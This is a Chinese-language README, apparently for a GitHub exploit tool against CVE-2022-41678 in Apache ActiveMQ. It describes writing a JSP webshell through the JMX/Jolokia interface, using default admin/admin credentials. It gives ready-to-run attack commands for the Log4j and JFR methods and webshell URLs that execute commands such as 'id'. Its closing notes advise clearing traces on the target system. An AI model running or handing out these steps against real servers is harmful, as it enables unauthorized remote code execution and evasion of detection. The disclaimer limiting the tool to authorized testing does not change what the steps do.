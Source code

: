# Apache ActiveMQ CVE-2022-41678 漏洞利用工具

## 漏洞简介

参考文档: https://app.nextcyber.cn/courses/41/tasks/580

CVE-2022-41678 是 Apache ActiveMQ 中的一个远程代码执行漏洞。该漏洞允许攻击者通过 JMX (Java Management Extensions) 接口修改 Log4j 配置或 JFR (Java Flight Recorder) 配置，从而写入恶意的 JSP webshell 到服务器的 web 目录中，最终实现远程代码执行。

此漏洞影响 Apache ActiveMQ 多个版本，具体受影响版本取决于 Log4j 和 JFR 配置的使用情况。

## 环境要求

- Python 3.6 及以上版本
- 安装所需依赖：
  ```bash
  pip install requests
  ```
- 目标 ActiveMQ 服务器需要开启 JMX 接口（通常通过 /api/jolokia/ 路径访问）
- 攻击者需要知道 ActiveMQ 控制台的用户名和密码（默认通常为 admin/admin）

## 使用方法

### 基本用法

使用默认的 admin/admin 凭据和自动检测的利用方式：

```bash
python exp.py http://target:8161
```

### 指定凭据

当目标 ActiveMQ 控制台使用自定义凭据时：

```bash
# 使用 Log4j
python poc.py -u admin -p admin http://192.168.2.47:8161
```

```bash
# 使用 JFR 方式
python poc.py -u admin -p admin --exploit jfr http://192.168.2.47:8161
```

### 验证利用结果

成功利用后，可以通过访问以下 URL 来执行命令：

```
# Log4j 方式写入的 webshell
http://target:8161/admin/shell.jsp?cmd=命令

# JFR 方式写入的 webshell
http://target:8161/admin/shelljfr.jsp?cmd=命令
```

例如，执行 id 命令：
```
http://target:8161/admin/shell.jsp?cmd=id
```

## 工具参数说明

| 参数 | 简写 | 类型 | 默认值 | 描述 |
|------|------|------|--------|------|
| `--username` | `-u` | 字符串 | `admin` | ActiveMQ 控制台的用户名 |
| `--password` | `-p` | 字符串 | `admin` | ActiveMQ 控制台的密码 |
| `--exploit` | `-e` | 字符串 | `auto` | 利用方式，可选值：`auto`, `log4j`, `jfr` |
| `url` | - | 字符串 | - | 目标 ActiveMQ 的 URL 地址（必需参数） |

## 注意事项

1. 此工具仅供安全研究和授权测试使用，请勿用于未授权的系统。
2. 成功利用后，工具会尝试恢复原始的 Log4j 配置，以尽量减少对目标系统的影响。
3. 如果目标系统有网络访问限制，可能需要调整网络配置以确保能够访问目标的 JMX 接口。
4. 不同版本的 ActiveMQ 可能有不同的路径和配置，可能需要根据实际情况调整工具中的路径。
5. 工具使用 JMX 接口进行操作，需要确保目标 ActiveMQ 启用了此接口。
6. 执行此工具可能会在目标系统上留下日志记录，请注意清理相关痕迹。